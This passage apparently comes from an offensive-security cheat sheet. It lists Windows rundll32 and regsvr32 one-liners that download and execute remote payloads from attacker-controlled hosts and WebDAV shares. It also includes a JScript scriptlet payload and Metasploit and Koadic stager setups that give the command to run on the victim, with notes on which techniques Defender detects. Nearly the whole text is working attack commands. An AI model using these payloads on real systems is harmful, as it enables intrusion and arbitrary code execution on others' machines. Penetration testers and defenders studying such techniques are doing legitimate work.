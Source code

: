 ```
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```
```
```bash
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```
```
**Detected by defender**

**Rundll32 - sct**

[[https://gist.github.com/Arno0x/e472f58f3f9c8c0c941c83c58f254e17|**From here**]]

```xml
<?XML version="1.0"?>


<scriptlet>
<public>
</public>
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```
```
#### **Rundll32 - Metasploit**

```bash
use windows/smb/smb_delivery
run
#You will be given the command to run in the victim: rundll32.exe \\10.2.0.5\Iwvc\test.dll,0
```
```
**Rundll32 - Koadic**

```bash
use stager/js/rundll32_js
set SRVHOST 192.168.1.107
set ENDPOINT sales
run
#Koadic will tell you what you need to execute inside the victim, it will be something like:
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://10.2.0.5:9997/ownmG",false);x.send();eval(x.responseText);window.close();
```
```
## Regsvr32

- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|From here]]

```bash
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```
```
```
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```
```
**Detected by defender**
